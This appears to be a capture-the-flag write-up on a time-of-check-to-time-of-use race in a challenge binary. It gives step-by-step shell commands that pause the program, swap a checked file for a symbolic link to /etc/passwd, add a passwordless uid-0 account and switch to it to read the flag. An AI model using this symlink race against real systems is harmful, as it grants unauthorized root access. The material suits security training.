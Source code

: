 Hacker can use the race condition to create a symbolic link such that the etc/passwd file is accessed instead and use adduser with a 0 to add a user with root permissions.

The race condition is caused by the fact that there is a delay between when the file is checked (access) and the file is opened (fopen). This allows the hacker to change the file after the check but before the write. The hacker can exploit this using the following steps:
1. create the ~/permitted file
2. run the chal in the background
3. create a symbolic link from ~/permitted to /etc/passwd
4. write a root user and press enter i.e. 
root2::0:0:root2:/home/root2:/bin/bash
5. The hacker can then log in as the new root2 user and have a root shell (because root == 0 uid).
su root2

```sh
touch ~/permitted
cd /challenge
./chal
<ctrl+z> # to pause the process
ln -sf /etc/passwd ~/permitted
fg
root2::0:0:root2:/home/root2:/bin/bash
su root2
cat /flag.txt
```

